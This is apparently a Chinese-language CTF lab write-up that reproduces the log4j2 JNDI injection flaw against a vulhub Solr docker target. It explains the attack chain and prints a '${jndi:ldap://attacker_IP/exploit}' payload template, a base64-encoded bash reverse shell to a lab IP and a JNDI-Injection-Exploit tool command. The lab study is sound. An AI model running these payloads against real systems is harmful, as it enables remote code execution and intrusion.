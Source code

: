 log4j2 - CTF
===

用 docker 搭建靶机完成渗透, 理解 log4j2 漏洞。

### 靶机准备

首先准备 docker 文件, 编辑 `docker-compose.yaml`:

```yaml
version: '2'
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
```

在同一目录执行 `docker-compose up -d`:

![1-1.png](1-1.png)

拉取完毕后启动镜像, 访问 8983 端口:

![1-2.png](1-2.png)

### log4j2 漏洞原理

#### log4j2

`log4j2` 是 Java 中常用的日志文件框架, 主要是帮助开发者记录程序运行时的信息, 例如调试信息, 运行错误等。

`log4j2` 存在一个关键特性: 支持插入**动态内容**, 例如变量和表达式, 并且支持插件来自定义功能, 比如**解析${xxx}表达式**。

> 看到这里已经有可以渗透的点了, 如果 Log4j2 不对用户的输入进行过滤, 那么就和 sqli 一样存在明显的注入问题。

#### JNDI

JNDI（Java Naming and Directory Interface） 是 Java 的一个 API，用于**访问命名和目录服务**。

简单说，它是一个 "中间人"，允许 Java 程序通过统一接口访问各种资源（如数据库、远程对象、文件系统等）。

在攻击链中, JNDI 是一个 "跳板" , 通过 `jndi:ldap://` 的调用方式触发远程加载恶意类。

#### LDAP

LDAP 是一套轻量级目录访问协议, 其作用类似电话簿, LDAP 支持**通过名称快速查找**, 并且数据保持树形结构, 以层级的方式住址: 如 `A-B-C-D`。

#### 完整攻击链

1. 设计 payload 
构造恶意 payload ,包含`${jndi:ldap://attacker_IP/exploit} `的请求

2. 消息日志解析 
消息日志在生成时, 解析 payload 并产生 jndi 查询。

3. 加载恶意类 
由于 ldap 中填入的是攻击机的 ip, 因此此时调用 LDAP 服务时, 会向攻击方发送请求, 并执行 `exploit` 利用

4. 执行任意代码
如果 `exploit` 中为恶意代码, 例如 shellcode, 那么这里就会直接发送一个**反弹shell**到攻击机上。


### log4j2 漏洞复现

#### 启动靶机

开启靶机端口映射, 这样 kali 才能访问对应端口:

```bash
docker run -d -p 8983:8983 --name log4j2 sha256:052794134d434bc2db0775211589beb372412af333a262dbf7977d28ec8d2142
```

在 kali 中用 telnet 尝试连接:

![2-1.png](2-1.png)

#### 构造 payload

首先对 shellcode 作 base64 编码:

```bash
echo "bash -i >& /dev/tcp/192.168.170.135/4444 0>&1" | base64
```

启动 JNDI 攻击工具:

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
-C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3MC4xMzUvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" \
-A 192.168.170.135
```

> `-C`: Base64 编码的反弹 Shell 命令。
> `-A`: 地址, 攻击机 kali 的 ip 。
> 输出为payload: `ldap://192.168.170.135:port/Exploit`

